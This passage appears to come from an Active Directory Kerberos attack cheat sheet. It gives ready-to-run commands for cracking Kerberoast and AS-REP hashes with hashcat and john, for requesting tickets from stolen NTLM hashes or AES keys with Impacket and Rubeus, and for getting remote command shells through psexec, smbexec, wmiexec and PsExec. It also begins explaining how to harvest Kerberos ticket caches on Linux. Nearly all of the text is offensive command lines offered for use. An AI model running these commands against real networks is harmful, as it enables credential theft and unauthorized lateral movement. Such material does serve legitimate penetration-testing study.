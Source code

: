 Cracking with dictionary of passwords:
```shell
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```


## Overpass The Hash/Pass The Key (PTK)

By using [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]
# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```


With [Rubeus](https://github.com/GhostPack/Rubeus) and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```



## Pass The Ticket (PTT)

### Harvest tickets from Linux

Check type and location of tickets:

```shell
grep default_ccache_name /etc/krb5.conf
```
If none return, default is FILE:/tmp/krb5cc_%{uid}.

In case of file tickets, you can copy-paste (if you have permissions) for use them.
